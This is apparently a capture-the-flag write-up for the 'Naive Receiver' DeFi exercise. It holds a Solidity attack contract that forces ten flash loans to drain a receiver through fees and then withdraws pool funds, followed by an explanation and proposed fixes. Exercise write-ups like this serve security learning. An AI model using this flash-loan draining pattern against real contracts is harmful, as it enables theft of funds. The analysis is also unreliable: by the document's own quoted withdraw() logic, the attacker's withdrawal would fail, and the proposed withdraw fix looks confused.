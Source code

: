 ## Challenge 2: Naive Receiver

### Vulnerability
The `NaiveReceiverPool` allows anyone to request flash loans on behalf of any receiver, and the receiver pays fees without validation.

### Exploit Code
```solidity
// In NaiveReceiver.t.sol - test_naiveReceiver() function
function test_naiveReceiver() public checkSolvedByPlayer {
    // Deploy attack contract
    NaiveReceiverAttacker attacker = new NaiveReceiverAttacker(
        pool, 
        address(receiver), 
        recovery
    );
    
    // Execute attack in 2 transactions max
    attacker.attack();
}

// Attack contract
contract NaiveReceiverAttacker {
    NaiveReceiverPool pool;
    address receiver;
    address recovery;
    
    constructor(NaiveReceiverPool _pool, address _receiver, address _recovery) {
        pool = _pool;
        receiver = _receiver;
        recovery = _recovery;
    }
    
    function attack() external {
        // Use multicall to drain receiver in one transaction
        bytes[] memory calls = new bytes[](11);
        
        // 10 flash loans to drain receiver (1 ETH fee each = 10 ETH total)
        for (uint i = 0; i < 10; i++) {
            calls[i] = abi.encodeCall(
                pool.flashLoan,
                (receiver, address(pool.weth()), 0, "0x")
            );
        }
        
        // Withdraw all WETH from pool to recovery
        calls[10] = abi.encodeCall(
            pool.withdraw,
            (1000 ether, payable(recovery))
        );
        
        pool.multicall(calls);
    }
}
```

### Why it works
1. Flash loans can be called on behalf of any receiver
2. Receiver pays 1 ETH fee per loan without validation
3. Multicall allows executing multiple operations in single transaction
4. After draining receiver, we can withdraw pool funds to recovery address

### Fix
**File:** `src/naive-receiver/NaiveReceiverPool.sol`
**Vulnerable Code (lines ~76-85):**
```solidity
function flashLoan(
    IERC3156FlashBorrower receiver,
    address token,
    uint256 amount,
    bytes calldata data
) external returns (bool) {
    // No validation that msg.sender == address(receiver)!
    
    if (token != address(weth)) revert UnsupportedCurrency();
    if (amount >= FLASH_LOAN_FEE) {
        weth.transfer(address(receiver), amount);
        
        totalFees += FLASH_LOAN_FEE;
        
        if (receiver.onFlashLoan(msg.sender, token, amount, FLASH_LOAN_FEE, data) != CALLBACK_SUCCESS) {
            revert CallbackFailed();
        }
        
        // Fee is deducted from receiver regardless of who initiated!
        weth.transferFrom(address(receiver), address(this), amount + FLASH_LOAN_FEE);
    }
    return true;
}
```

**The Problem:** Anyone can call `flashLoan()` on behalf of any receiver contract. The receiver pays the fee but has no control over when loans are taken.

**Additional Vulnerability in `withdraw()` (lines ~103-108):**
```solidity
function withdraw(uint256 amount, address payable receiver) external {
    // No access control - anyone can withdraw to any address!
    deposits[msg.sender] = deposits[msg.sender] - amount;
    weth.transfer(receiver, amount);
}
```

**Fixed Code:**
```solidity
function flashLoan(
    IERC3156FlashBorrower receiver,
    address token,
    uint256 amount,
    bytes calldata data
) external returns (bool) {
    // ADD: Require caller is the receiver or approved operator
    require(
        msg.sender == address(receiver) || 
        isApprovedOperator[address(receiver)][msg.sender],
        "Unauthorized flash loan"
    );
    
    if (token != address(weth)) revert UnsupportedCurrency();
    // ... rest of function
}

// Add operator approval system
mapping(address => mapping(address => bool)) public isApprovedOperator;

function setOperatorApproval(address operator, bool approved) external {
    isApprovedOperator[msg.sender][operator] = approved;
}

function withdraw(uint256 amount, address payable receiver) external {
    // ADD: Require receiver is msg.sender or approved
    require(
        receiver == msg.sender || 
        isApprovedOperator[msg.sender][address(receiver)],
        "Unauthorized withdrawal destination"
    );
    
    deposits[msg.sender] = deposits[msg.sender] - amount;
    weth.transfer(receiver, amount);
}
```
